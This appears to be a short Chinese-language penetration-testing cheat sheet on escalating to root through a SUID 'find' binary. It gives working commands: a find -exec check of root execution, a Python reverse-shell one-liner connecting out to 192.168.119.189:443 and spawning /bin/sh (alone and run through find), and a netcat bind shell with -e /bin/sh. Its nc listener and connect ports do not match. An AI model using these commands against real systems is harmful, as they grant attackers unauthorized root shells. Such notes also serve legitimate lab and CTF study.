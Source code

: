 # 确认 find 有 root 执行权限
执行命令
```
touch jewel591
/usr/bin/find jewel591 -exec whoami \;
```
确认 find 命令是否是 root 权限执行.

# 反弹 shell
1. 如果目标机上有 python 环境，可以使用 python 命令反弹 shell：
```
#反弹一个sh类型的shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.189",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' 
```
结合 find :
```
/usr/bin/find jewel591 -exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.119.189",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' \; 

```
2. 也可以结合 nc 来获得 shell
```
find /tmp -exec netcat -lvp 8888 -e /bin/sh ;
```
然后 nc 主动连接：
```
netcat 127.0.0.1 5555
```
